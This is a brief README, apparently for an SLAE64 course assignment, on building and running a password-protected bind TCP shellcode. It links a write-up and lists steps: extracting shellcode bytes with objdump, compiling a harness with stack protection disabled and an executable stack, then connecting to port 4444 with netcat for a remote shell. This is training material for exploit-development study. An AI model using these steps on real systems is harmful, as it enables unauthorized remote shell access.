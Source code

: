 https://securitychops.com/2019/02/02/slae64-assignment-1-shell-bind-tcp-shellcode.html

1. Compile it with **compile.sh**
2. Dump shellcode with **for i in $(objdump -D shell-bind.o |grep "^ " |cut -f2);do echo -n '\x'$i;done;echo**
3. Paste shellcode into shellcode.c
4. compile with: **gcc shellcode.c -o shellcode -fno-stack-protector -z execstack**
5. ./shellcode
6. nc -nv ipaddressOfHost 4444
7. Enter **Password**
8. done
